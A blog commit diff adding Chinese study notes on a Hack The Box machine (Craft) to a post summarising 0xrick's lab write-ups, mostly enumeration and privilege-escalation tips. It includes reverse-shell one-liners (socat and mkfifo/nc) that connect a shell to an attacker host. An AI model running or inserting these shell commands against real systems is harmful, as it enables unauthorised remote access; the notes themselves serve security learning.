

Before and after one commit to SewellDinG/sewellding.github.io, a Jekyll site: the page built from _posts/2020-02-04-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md, in a window 1280 px wide and 1400 px high, scrolled down 1443 px. Shown: the top 1396 px of the window, without its empty margins (207-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2162 px from its top, so only the background shows below that.

Commit message:
Add Write-ups for 0xrick's hack-the-box(#4)

````diff
--- a/_posts/2020-02-04-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md
+++ b/_posts/2020-02-04-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md
@@ -48,7 +48,7 @@
 - TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
 - Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
 
-### Bitlab
+### 三、Bitlab
 
 环境概述：Linux、Medium、30'、07 Sep 2019
 
@@ -71,3 +71,26 @@
 - 数据库：若环境支持PHP，可以利用adminer，支持MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, SimpleDB, Elasticsearch, MongoDB。
 - URL格式：`postgres://user:pass@host.com:5432/path?k=v#f`，包含了模式（协议）、验证信息、主机、端口、路径、查询参数和查询片段。注意：`@`和`#`。
 - 二进制程序：在逆向程序前可先使用关键字进行strings匹配。
+
+### 四、Craft
+
+环境概述：Linux、Medium、30'、13 Jul 2019
+
+渗透流程：Nmap -> Web Enumeration -> RCE –> Shell on Docker Container -> Gilfoyle’s Gogs Credentials –> SSH Key –> SSH as Gilfoyle –> User Flag -> Vault –> One-Time SSH Password –> SSH as root –> Root Flag
+
+知识点：
+
+- 版本控制：查看代码的同时记得查看Git提交记录，即Commit History。
+- API泄露：根据API帮助文档，可构造请求数据包，获取服务器对应响应。
+- 反弹Shell：使用sh -i、nc，`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`。
+- Python：作者写了个EXP demo，流程、输出都很清晰。其中，nc监听并实时返回结果可以利用subprocess子进程的Popen方法，`Popen(["nc","-lvnp",port])`。
+- 环境分析：在`/根目录`发现了`.dockerenv`文件，判定当前环境为Docker容器。
+- Linux登陆：使用SSH私钥，`ssh -i private.key user@host`。
+- 信息搜集：着重关注用户家目录下的`.xxx`文件，往往都是服务的配置文件，可快速定位当前用户常使用的软件服务。
+- Vault：一款密码保护工具，可以生成一次性root密码。
+
+思考：
+
+- 信息泄露：常用的版本控制工具除了Git还有SVN；利用公开的代码库搜索可能会有意外发现，可以使用[searchcode](https://searchcode.com)搜索来自Github, Bitbucket, Google Code, Codeplex, Sourceforge, Fedora Project, GitLab等开源仓库的代码内容。
+- 环境分析：Linux下可以通过查看etc下的release文件快速判断，`cat /etc/*release`。Docker可以通过查看网络接口来简单判断，`ip a`。
+- 文件查找：可以使用`ls -lat`按时间顺序来查看当前目录下的文件。
````
